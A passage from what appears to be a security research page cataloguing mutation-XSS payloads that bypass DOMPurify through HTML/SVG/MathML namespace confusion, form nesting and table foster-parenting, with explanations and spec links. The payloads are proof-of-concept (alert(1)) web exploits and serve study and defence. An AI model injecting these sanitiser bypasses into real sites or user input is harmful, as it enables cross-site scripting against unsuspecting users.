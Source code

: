 **Links:**
- Spec bug: https://github.com/whatwg/html/issues/5113
- Chrome issue: https://issues.chromium.org/issues/40050167
- Blog: https://research.securitum.com/dompurify-bypass-using-mxss/

**Other variants:**
```html
<svg></p><textarea><title><style></textarea><img src=x onerror=alert(1)></style></title></svg>
or
<svg></p><textarea><desc><style></textarea><img src=x onerror=alert(1)></style></desc></svg>
<math></p><textarea><mi><style></textarea><img src=x onerror=alert(1)></mi></math>
```

### Namespace Switching MXSS SecurityMB 2020
**Payload**
```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

**Description**
*HTML to SVG namespace Switch:* 
- The img tag ends up as a child of a style tag in the HTML namespace due to the presence of mtext during the first parsing stage. As a result, DOMPurify doesn't remove it. While this HTML isn’t immediately dangerous, it undergoes a mutation since form tags can't be nested in HTML. However, using a trick mentioned in the spec, it is possible to nest them during the first parsing stage. The parser mutates the form to conform to the spec.
- On the second pass, the nested form is removed, and the mglyph element ends up directly below the mtext, switching it to the MathML namespace. This also changes the style element to MathML. Since img tags are not allowed in foreign content (like MathML), it moves back to the HTML namespace and is eventually executed.

**Spec:** If the adjusted current node is a MathML text integration point and the token is a start tag whose tag name is neither "mglyph" nor "malignmark"
**Link:** https://html.spec.whatwg.org/multipage/parsing.html#tree-construction

**Links**
*https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/*

**Instead of style xmp can be used:**
```js
DOMPurify.sanitize('<form><math><mtext></form><form><mglyph><xmp><img src=x onerror=alert(1)>',{ADD_TAGS:['xmp']})
```

#### Multiple variations of the same root cause namespace confusion:
**Payload:**
```html
<math><mtext><table><mglyph><style><img src=x onerror="alert(1)"></table> or
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
```
**Description for why table behaves that way:**
*	Table tag has a parsing quirk called foster parenting, it moves the children if they are not allowed as children, so here mglyph style and img are all moved before the table
